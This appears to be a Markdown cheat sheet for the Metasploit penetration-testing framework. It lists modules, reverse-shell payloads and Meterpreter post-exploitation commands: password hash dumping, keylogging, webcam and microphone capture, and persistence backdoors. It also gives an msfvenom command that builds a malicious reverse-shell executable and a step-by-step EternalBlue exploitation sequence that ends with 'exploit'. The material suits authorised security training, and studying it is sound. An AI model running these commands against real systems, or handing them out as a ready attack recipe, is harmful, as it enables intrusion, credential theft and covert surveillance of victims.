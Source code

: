 # Metasploit Framework
Metasploit is a penetration testing framework that provides tools, exploits, and payloads to test vulnerabilities in systems. It's widely used by security professionals to:

- Identify weaknesses
- Exploit systems (with permission)
- Develop and test payloads
- Automate attacks using scripts (rc files)

### Key Components
| **Component**          | **Purpose**                                                        |
| ---------------------- | ------------------------------------------------------------------ |
| **Exploit**            | The code that takes advantage of a vulnerability                   |
| **Payload**            | Code that runs after successful exploitation (e.g., reverse shell) |
| **Encoder**            | Obfuscates payload to bypass AV                                    |
| **Auxiliary**          | Scanners, fuzzers, and tools (not for exploiting)                  |
| **Listener (Handler)** | Listens for payload connections (e.g., reverse shells)             |
| **Post**               | Modules to run after exploitation (dump hashes, escalate privs)    |


### Basic Workflow
1. Start Metasploit
```bash
msfconsole
```
2. Search Exploit
```bash
search name_or_service
```
3. Select Module
```bash
use exploit/path/to/module
```
4. Set Payload
```bash
set payload windows/meterpreter/reverse_tcp
```
5. Configure Options
```bash
set RHOSTS <target_ip>
set LHOST <your_ip>
```
6. Exploit the Target
```bash
exploit
```

### Common Module Paths
| Module Type       | Path                                       |
| ----------------- | ------------------------------------------ |
| Exploits          | `exploit/windows/smb/ms17_010_eternalblue` |
| Payloads          | `payload/windows/meterpreter/reverse_tcp`  |
| Auxiliaries       | `auxiliary/scanner/portscan/tcp`           |
| Post-Exploitation | `post/windows/gather/hashdump`             |

### Common Payloads
| Payload                             | Use                            |
| ----------------------------------- | ------------------------------ |
| `windows/meterpreter/reverse_tcp`   | Reverse shell with Meterpreter |
| `windows/shell/reverse_tcp`         | Simple reverse shell           |
| `linux/x86/meterpreter/reverse_tcp` | Linux Meterpreter shell        |
| `android/meterpreter/reverse_tcp`   | Android payload                |
| `cmd/unix/reverse`                  | Simple UNIX reverse shell      |

## Commands:

| **Command**             | **Description**                                   | **Example**                                     |
| ----------------------- | ------------------------------------------------- | ----------------------------------------------- |
| `msfconsole`            | Launch Metasploit Framework                       | `msfconsole`                                    |
| `search [term]`         | Search for exploit/module/payload                 | `search vsftpd`                                 |
| `use [module_path]`     | Use specific exploit or module                    | `use exploit/windows/smb/ms17_010_eternalblue`  |
| `info`                  | Show details of current module                    | `info`                                          |
| `show options`          | Show required settings for current module         | `show options`                                  |
| `set [OPTION] [value]`  | Set option value                                  | `set RHOSTS 192.168.1.10`                       |
| `setg [OPTION] [value]` | Set global option (works for all modules)         | `setg LHOST 192.168.1.5`                        |
| `show payloads`         | Show compatible payloads                          | `show payloads`                                 |
| `set payload [name]`    | Set a specific payload                            | `set payload linux/x86/meterpreter/reverse_tcp` |
| `show targets`          | Show target platforms/versions                    | `show targets`                                  |
| `exploit` or `run`      | Launch the exploit                                | `exploit`                                       |
| `back`                  | Return to previous module                         | `back`                                          |
| `jobs`                  | Show background tasks                             | `jobs`                                          |
| `kill [job_id]`         | Stop background task                              | `kill 1`                                        |
| `sessions`              | View active sessions                              | `sessions`                                      |
| `sessions -i [id]`      | Interact with a session                           | `sessions -i 1`                                 |
| `background`            | Background the current session                    | `background`                                    |
| `load [module]`         | Load extra functionality (e.g., `auto_add_route`) | `load mimikatz`                                 |
| `exit`                  | Exit Metasploit                                   | `exit`                                          |


### Post-Exploitation (Meterpreter)
| Command           | Use                                |
| ----------------- | ---------------------------------- |
| `sysinfo`         | Show system info                   |
| `getuid`          | Show current user                  |
| `hashdump`        | Dump password hashes               |
| `screenshot`      | Take screenshot of victim's screen |
| `record_mic`      | Record audio from victim mic       |
| `webcam_snap`     | Take picture via webcam            |
| `keyscan_start`   | Start keylogger                    |
| `keyscan_dump`    | Dump keystrokes                    |
| `shell`           | Drop into system shell             |
| `upload/download` | Transfer files                     |
| `persistence`     | Create backdoor to re-enter later  |

### Creating Malicious Files with msfvenom
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > payload.exe
```
| Flag            | Description                                      |
| --------------- | ------------------------------------------------ |
| `-p`            | Payload type                                     |
| `LHOST`/`LPORT` | Your attacker machine details                    |
| `-f`            | Output format (`exe`, `apk`, `elf`, `raw`, etc.) |
| `-o`            | Output to file (optional)                        |

#### Practical Exploitation Example (Windows 7 EternalBlue)
```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
set payload windows/meterpreter/reverse_tcp
exploit
```
